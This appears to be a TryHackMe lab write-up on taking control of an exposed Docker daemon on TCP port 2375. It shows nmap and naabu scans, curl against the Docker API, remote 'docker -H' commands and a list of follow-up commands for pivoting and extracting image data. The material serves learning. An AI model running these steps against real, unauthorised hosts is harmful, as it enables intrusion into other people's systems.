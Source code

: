 ```yaml
---
title: "Remote Code Execution via Exposed Docker Daemon"
date: 2024-09-01 07:09:22
categories: [Docker]
tags: [Docker, THM]
---
```


## The Docker Engine TCP Sockets Edition

Recall how Docker uses sockets to communicate between the host operating system and containers in the previous task. Docker can also use TCP sockets to achieve this.

Docker can be remotely administrated. For example, using management tools such as [Portainer](https://www.portainer.io/) or [Jenkins](https://www.jenkins.io/) to deploy containers to test their code (yay, automation!).

## The Vulnerability

The Docker Engine will listen on a port when configured to be run remotely. The Docker Engine is easy to make remotely accessible but difficult to do securely. The vulnerability here is Docker is remotely accessible and allows anyone to execute commands. First, we will need to enumerate.

Enumerating: Finding Out if a Device Has Docker Remotely Accessible

By default, the engine will run on **port 2375.** We can confirm this by performing an Nmap scan against your target (10.10.62.80) from your AttackBox.

```
[iamroot@parrot]$ nmap -sV -p 2375 10.10.62.80
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 21:37 IST
Nmap scan report for 10.10.62.80
Host is up (0.48s latency).

PORT     STATE SERVICE VERSION
2375/tcp open  docker  Docker 20.10.20 (API 1.41)
Service Info: OS: linux

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.58 seconds

```



```
[iamroot@parrot]$ naabu -p - 10.10.62.80

                  __
  ___  ___  ___ _/ /  __ __
 / _ \/ _ \/ _ \/ _ \/ // /
/_//_/\_,_/\_,_/_.__/\_,_/ v2.0.5

		projectdiscovery.io

Use with caution. You are responsible for your actions
Developers assume no liability and are not responsible for any misuse or damage.
[INF] Running CONNECT scan with non root privileges
[INF] Found 3 ports on host 10.10.62.80 (10.10.62.80)
10.10.62.80:2222
10.10.62.80:22
10.10.62.80:2375

```

Looks like it's open; we're going to use the `curl` command to start interacting with the exposed Docker daemon. Confirming that we can access the Docker daemon: `curl http://10.10.62.80:2375/version`


```
[iamroot@parrot]$ curl http://10.10.62.80:2375/version

{"Platform":{"Name":"Docker Engine - Community"},"Components":[{"Name":"Engine","Version":"20.10.20","Details":{"ApiVersion":"1.41","Arch":"amd64","BuildTime":"2022-10-18T18:18:12.000000000+00:00","Experimental":"false","GitCommit":"03df974","GoVersion":"go1.18.7","KernelVersion":"5.15.0-1022-aws","MinAPIVersion":"1.12","Os":"linux"}},{"Name":"containerd","Version":"1.6.8","Details":{"GitCommit":"9cd3357b7fd7218e4aec3eae239db1f68a5a6ec6"}},{"Name":"runc","Version":"1.1.4","Details":{"GitCommit":"v1.1.4-0-g5fd4c4d"}},{"Name":"docker-init","Version":"0.19.0","Details":{"GitCommit":"de40ad0"}}],"Version":"20.10.20","ApiVersion":"1.41","MinAPIVersion":"1.12","GitCommit":"03df974","GoVersion":"go1.18.7","Os":"linux","Arch":"amd64","KernelVersion":"5.15.0-1022-aws","BuildTime":"2022-10-18T18:18:12.000000000+00:00"}

```

## Executing Docker Commands on Our Target

For this, we'll need to tell our version of Docker to send the command to our target (not our own machine). We can add the "-H" switch to our target. To test if we can run commands, we'll list the containers on the target: `docker -H tcp://10.10.62.80:2375 ps`

```
[iamroot@parrot]$ docker -H tcp://10.10.62.80:2375 ps

CONTAINER ID   IMAGE        COMMAND               CREATED        STATUS             PORTS                               NAMES
7b7461f9882e   dockertest   "/usr/sbin/sshd -D"   4 months ago   Up About an hour   0.0.0.0:22->22/tcp, :::22->22/tcp   beautiful_pasteur


```

## What Now

Now that we've confirmed that we can execute docker commands on our target, we can do all sorts of things. For example, start containers, stop containers, delete them, or export the contents of the containers for us to analyse further. It is worth recalling the commands covered in [Intro to Docker](https://tryhackme.com/room/introtodockerk8pdqk). However, I've included some commands that you may wish to explore:


| **Command  <br>** | **Description  <br>**                                                                                                                         |
| ----------------- | --------------------------------------------------------------------------------------------------------------------------------------------- |
| network ls        | Used to list the networks of containers, we could use this <br>to discover other applications running and pivot to them <br>from our machine! |
| images            | List images used by containers; data can also be exfiltrated <br>by reverse-engineering the image.                                            |
| exec              | Execute a command on a container.                                                                                                             |
| run               | Run a container.                                                                                                                              |
